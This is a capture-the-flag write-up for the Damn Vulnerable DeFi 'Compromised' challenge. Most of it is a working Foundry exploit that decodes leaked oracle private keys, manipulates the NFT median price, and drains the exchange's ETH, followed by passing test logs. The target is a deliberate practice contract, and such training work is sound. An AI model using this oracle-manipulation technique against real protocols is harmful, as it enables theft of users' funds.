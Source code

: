 # Damn Vulnerable Defi - Compromised
- Scope
    - Exchange.sol
    - DamnValuableNFT.sol
    - TrustfulOracle.sol  
    - TrustfulOracleInitializer.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Leaked private key gives attackers control of oracle and price of the token or NFT is manipulated

### Summary
Leaked private key gives attackers control of oracle and price of the token or NFT is manipulated to drain the ETH off exchange.

### Vulnerability Details
Leaked private keys are dangerous as it gives attackers total control of the oracle and the token or NFT price can be manipulated.

### Impact/Proof of Concept
Remember to inherit `IERC721Receiver` on the CompromisedChallenge contract.
```
function test_compromised() public checkSolved {
        // From the readme.md file, we have 2 leaked data and we need to convert them from Hexadecimal -> ASCII -> DecodeBase64 -> String
        // Leaked_1 = 4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30
        // Leaked_2 = 4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
        // pk_1 = "7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744"
        // pk_2 = "68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159"
        // After conversion, we can see that they are actually the private key of the 2 sources as their addr is calculated to be the same.
        // Try it at -> https://www.rfctools.com/ethereum-address-test-tool/
        address source1 = 0x188Ea627E3531Db590e6f1D71ED83628d1933088;
        address source2 = 0xA417D473c40a4d42BAd35f147c21eEa7973539D8;
        
        // Simulate hijacking source 1 and 2 as we have the private keys, then set the NFT price to 0
        vm.startPrank(source1);
        oracle.postPrice("DVNFT", 0);
        vm.startPrank(source2);
        oracle.postPrice("DVNFT", 0);
        console.log("DNFT Price: ", oracle.getMedianPrice("DVNFT") / 1e18);

        // Switch to player and buy with 1 ether, as 0 will revert
        vm.startPrank(player);
        uint256 id = exchange.buyOne{value: 1}();

        // Switch back to source 1 and 2 and set the NFT price to be very high
        vm.startPrank(source1);
        oracle.postPrice("DVNFT", 999 ether);
        vm.startPrank(source2);
        oracle.postPrice("DVNFT", 999 ether);
        console.log("DNFT Price: ", oracle.getMedianPrice("DVNFT") / 1e18);

        // Approve the sale and then sell DNFT back to exchange for a high price
        vm.startPrank(player);
        nft.approve(address(exchange), id);
        exchange.sellOne(id);

        // Transfer ETH to recovery
        (bool success,) = recovery.call{value: 999 ether}("");
        require(success);
        console.log("Player Balance: ", player.balance / 1e18);
        console.log("Recovery Balance: ", recovery.balance / 1e18);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4){
        return this.onERC721Received.selector;
    }
```

Results
```diff
Ran 2 tests for test/compromised/Compromised.t.sol:CompromisedChallenge
[PASS] test_assertInitialState() (gas: 40733)
[PASS] test_compromised() (gas: 246870)
Logs:
  DNFT Price:  0
  DNFT Price:  999
  Player Balance:  0
  Recovery Balance:  999

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.96ms (604.80µs CPU time)
```

